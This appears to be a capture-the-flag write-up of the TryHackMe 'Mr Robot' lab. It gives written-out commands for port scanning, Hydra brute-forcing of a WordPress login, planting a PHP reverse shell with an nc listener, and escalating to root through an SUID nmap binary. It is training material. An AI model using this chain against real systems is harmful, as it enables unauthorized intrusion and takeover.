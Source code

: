 We start by scanning open ports with nmap :
```
nmap -p- 10.10.198.11
```
![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/Mr%20Robot%20CTF/Images/nmap.png?raw=true)

We start by fuzzing the website for interesting directories :  

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/Mr%20Robot%20CTF/Images/fuzzz.png?raw=true)


Going to http://10.10.198.11/robots show 2 files :
- fsocity.dic
- key-1-of-3.txt

We can obtain them by going to :
http://10.10.198.11/fsocity.dic
http://10.10.198.11/key-1-of-3.txt

We have the first flag by going to http://10.10.198.11/key-1-of-3.txt

The file fsocity.dic is very long we can try to remove the duplicates and organize via alphabetical order by running 
```
cat fsocity.dic | sort | uniq > uniq-word.txt
```

After running the previous command the file pass from 858160 words to 11451 words

The login panel in http://10.10.198.11/wp-login.php show an error message that reveal if we provided an existing user.

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/Mr%20Robot%20CTF/Images/brute-login.png?raw=true)

So we can brute force the login panel with Hydra : 

Bruteforce username : 
```
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p password 10.10.198.11 http-post-form  "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.198.11%2Fwp-admin%2F&testcookie=1:invalid username"
```
![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/Mr%20Robot%20CTF/Images/user-enum.png?raw=true)


Bruteforce password
```
hydra -l elliot -P uniq-word.txt 10.10.198.11 http-post-form  "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.198.11%2Fwp-admin%2F&testcookie=1:is incorrect"
```
![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/Mr%20Robot%20CTF/Images/password-enum.png?raw=true)


Now we are connected to the admin dashboard but we want to have the possibility to upload a reverse shell to execute command.

So we go to Appearence > Editor :

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/Mr%20Robot%20CTF/Images/Editor.png?raw=true)


We then chose the file "footer.php" change the content to the php reverse shell in : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 

We updated the file to point to our IP, and then we start our listener :
```
nc -lvnp 1234
```
We navigate to http://10.10.198.11/wp-admin/footer.php to trigger our reverse shell 

Once we are in the syetem we go to /home/robot

We can't directly obtain the second key but we can open the file called "password.raw-md5"

The file contain the MD5 hash of the user 'robot'

We provide the hash to https://crackstation.net/ which luckily give us the corresponding password : abcdefghijklmnopqrstuvwxyz

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/Mr%20Robot%20CTF/Images/hash-decrypt.png?raw=true)


We can now switch to user robot but before that we need to upgrade our shell by running : 
```
python3 -c 'import pty;pty.spawn("/bin/bash");'
```
To switch to user robot we use
```
su robot 
```
We provide the password abcdefghijklmnopqrstuvwxyz

We can now obtain the second key : 

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/Mr%20Robot%20CTF/Images/switch-user-robot.png?raw=true)

We enumerate the files in the system to find privilege escalation vectors.

We ran the command :
```
find / -perm -04000 2>/dev/null
```
We see the interesting binary : 
```
/usr/local/bin/nmap
```
![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/Mr%20Robot%20CTF/Images/suid-nmap.png?raw=true)

We check on https://gtfobins.github.io/gtfobins/nmap/

And see that we can spawn a shell using :
```
nmap --interactive
nmap> !sh
```
![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/Mr%20Robot%20CTF/Images/nmap-root.png?raw=true)


We are root and can now obtain the third key:
```
cat /root/*
```
![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/Mr%20Robot%20CTF/Images/last-flag.png?raw=true)


VOILA ! 


